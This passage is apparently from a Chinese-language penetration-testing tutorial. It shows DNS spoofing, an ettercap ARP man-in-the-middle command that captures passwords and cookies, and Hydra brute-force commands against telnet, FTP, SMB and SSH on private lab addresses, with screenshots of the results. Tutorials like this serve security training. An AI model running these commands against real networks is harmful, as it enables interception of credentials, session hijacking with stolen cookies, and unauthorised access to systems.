 ④dns 欺骗  
这里也可以看到记录的密码

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNYtWNe7uCic0ibxsGLtMEUOGEDvoQgQ2uNuERA2xg0lEUjp0XDOkTlW6YH1ZRsTRTXFyrBeotBmQzgA/640?wx_fmt=png)

⑤dns 欺骗成功

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNYtWNe7uCic0ibxsGLtMEUOGE3fyWl8XX2LnvCLoz6MgS2Cedym5e3TkicGwHljQYt0vL7mgkibMia9lyw/640?wx_fmt=png)

**ettercap 命令行**

```
ettercap -T -q -i eth0 -M arp:remote /192.168.198.130// /192.168.198.2//
#目标：192.168.198.130
#网关：192.168.198.2

```

抓取密码成功，这里还能抓到 cookie，如果没法抓到密码可以抓 cookie 登录  

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNYtWNe7uCic0ibxsGLtMEUOGERrYia5iaz4eTE2NAQ6prj5jk1ceLG4051UfrbcnHfoHJFnL6sjv2tcGg/640?wx_fmt=png)

**四、服务密码攻击**  
**1\. 在线爆破  
**在线爆破受网络因素、字典、电脑性能影响较大。扫描端口分析服务进行爆破攻击：smb、telnet、ftp、rdp、mysql、mssql、ssh  
**Hydra 爆破 telnet**  

```
hydra -L /root/dict/usename.txt -P /root/dict/password.txt -t 20 telnet://192.168.198.133:23

```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNYtWNe7uCic0ibxsGLtMEUOGEOHNSHX8qLue8zt4r9L0mDEn01bJMuAtrkzz7q8fKNrD6G02ka8Klcw/640?wx_fmt=png)  

**Hydra 爆破 ftp**

```
hydra -L /root/dict/usename.txt -P /root/dict/password.txt -t 20 ftp://192.168.198.133:21

```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNYtWNe7uCic0ibxsGLtMEUOGE4JDFDENZDNWhcUA0dJeYe4Pc27DvaxiacNYpM0oHEZEp0yOnGYvuXXg/640?wx_fmt=png)

**Hydra 爆破 smb**

```
hydra -L /root/dict/usename.txt -P /root/dict/password.txt -t 20 smb://192.168.198.133:445

```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNYtWNe7uCic0ibxsGLtMEUOGE3aZH1ROprPiakK4K6BgLMetas9vR12ibY4e3ochLQK8ARAaJLqa8D1Zg/640?wx_fmt=png)

**Hydra 爆破 ssh**

```
hydra -L /root/dict/usename.txt -P /root/dict/password.txt -t 20 ssh://192.168.198.131:22

```
